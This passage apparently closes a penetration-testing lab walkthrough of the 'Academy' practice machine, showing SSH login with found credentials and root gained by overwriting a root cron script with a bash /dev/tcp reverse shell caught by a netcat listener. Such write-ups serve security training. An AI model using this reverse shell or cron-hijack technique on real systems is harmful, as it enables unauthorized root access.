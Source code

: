 We discovered that a user named `grimmie` was defined on the system and that a cron job was running a script called `backup.sh` every minute. Using the credentials found in the config file, we logged in via SSH as `grimmie`.    


**Let’s test ssh login with this password:**
```shell
┌──(psychic㉿0xShakhawat)-[~]
└─$ ssh grimmie@192.168.208.129
grimmie@academy:~$ whoami
grimmie
grimmie@academy:~$ hostname
academy
grimmie@academy:~$ sudo -l
-bash: sudo: command not found
grimmie@academy:~$ 

```
Although we didn't have `sudo` privileges, we had access to the `backup.sh` script running as root via cron. Here’s the script:   

```shell
grimmie@academy:~$ pwd
/home/grimmie
grimmie@academy:~$ ls
backup.sh
grimmie@academy:~$ cat backup.sh
#!/bin/bash

rm /tmp/backup.zip
zip -r /tmp/backup.zip /var/www/html/academy/includes
chmod 700 /tmp/backup.zip
```

To escalate privileges, we set up a Netcat listener and modified the `backup.sh` script to include a reverse shell payload:  

```shell
#!/bin/bash
bash -i >& /dev/tcp/192.168.208.139/8081 0>&1
```
Within a minute, the cron job executed the modified script, and we gained root access!  

```shell
┌──(psychic㉿0xShakhawat)-[~]
└─$ nc -lvnp 8081 
listening on [any] 8081 ...
connect to [192.168.208.139] from (UNKNOWN) [192.168.208.129] 34586
bash: cannot set terminal process group (6836): Inappropriate ioctl for device
bash: no job control in this shell
root@academy:~# whoami
root
root@academy:~# cd /root
root@academy:~# ls
flag.txt
root@academy:~# cat flag.txt
Congratz you rooted this box !
Looks like this CMS isn't so secure...
I hope you enjoyed it.
If you had any issue please let us know in the course discord.

Happy hacking !
root@academy:~# 
```
We successfully rooted the Academy machine by exploiting various vulnerabilities, including FTP anonymous login, MD5 hash cracking, and file upload vulnerabilities. This machine provided a great opportunity to practice essential penetration testing techniques.  